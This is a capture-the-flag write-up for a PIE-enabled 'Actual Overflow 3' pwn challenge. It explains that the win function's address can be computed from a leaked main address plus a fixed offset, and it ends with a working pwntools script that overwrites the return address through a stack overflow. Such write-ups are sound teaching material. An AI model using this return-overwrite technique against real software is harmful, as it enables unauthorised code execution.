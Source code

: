 ```yaml
---
title: AIRANGE'24 - Pwn - Actual Overflow 3
date: '2024-04-17'
tags: ['ctf', 'pwn', 'airange', 'writeup', 'pwntools', 'overflow']
draft: false
summary: Return to win function through one given address and pie enabled
---
```


## Challenge Description

I gave you the function back, but some mitigations were enabled, can you bypass those?

[Download](https://airange.online/files/36f153c67108a494716a3145ad6ac150/actual_overflow_3.tar?token=eyJ1c2VyX2lkIjo0NSwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6MzR9.Zh_uAQ.1XvwELSsvb_RWacfHV5k6Fmsn8c)

## Solution

![Screenshot_2024-03-09_21-09-54.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/09b77bf4-1452-421f-99f6-d0fb986688b0/9c8136da-f9aa-4fad-8dcf-e510a670cd1f/Screenshot_2024-03-09_21-09-54.png)

In this challenge the pie and nx is enabled which means that every time a binary is executed it will generate the random address of every instruction in binary. BUT are those really random???

NO they are not, there is a a thing called as offset(the distance between any two function or distance of base of binary to that function) so it never changes.
WHY??????????
Because the distance of one symbol to another symbol will never change, because lets say you have one guy named ali standing 1 meter away from origin and a guy named haris standing at 2 meter from origin so regardless of their address they will always be there, that's how execution work.

Well it's just the base address that is random anything except that is an addition of offset in that address.

***base address + offset = function address***

 so if we know one address we can calculate it’s offset to another function and every time a binary is executed we just add that offset in that SO randomly generated offset.

***win address = address (+ or -) offset*** 

Here’s how i calculated offset between main and win function system call.

![Screenshot_2024-03-09_21-26-11.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/09b77bf4-1452-421f-99f6-d0fb986688b0/bac3596c-ada0-4358-a704-de39fa56cbba/Screenshot_2024-03-09_21-26-11.png)

$$
0x5555555552bb - 0x0000555555555253 = 0x68
$$

$$
0x68 =104
$$

**EXPLOIT:**

```python
from pwn import *

# Define remote host and port
remote_host = '143.198.227.172'  # Replace with the actual remote host IP address
remote_port = 32778        # Replace with the actual remote port number

# Establish connection to remote server
p = remote(remote_host, remote_port)

# Receive main address
p.recvuntil(b'main @ ')
main_addr = p.recvuntil(b'\n', drop=True).decode()
log.info(f"Main function address: {main_addr}")

# Calculate the win function offset (replace it with the actual offset)
offset = 104  # replace it with the actual offset between main and win function

# Calculate win function address
win_addr = int(main_addr, 16) - offset
win_addr = p64(win_addr)

# Craft payload
payload = (b'A' * 264)  # Offset to return address
payload += win_addr     # Overwrite return address with the address of the win() function

# Send payload
p.sendline(payload)
p.recvline()
# Receive and print output
print(p.recvall())

# Close connection
p.close()
```

![Screenshot_2024-03-09_21-27-29.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/09b77bf4-1452-421f-99f6-d0fb986688b0/54999e6c-1f68-4f99-8f4c-f26395e6d5bd/Screenshot_2024-03-09_21-27-29.png)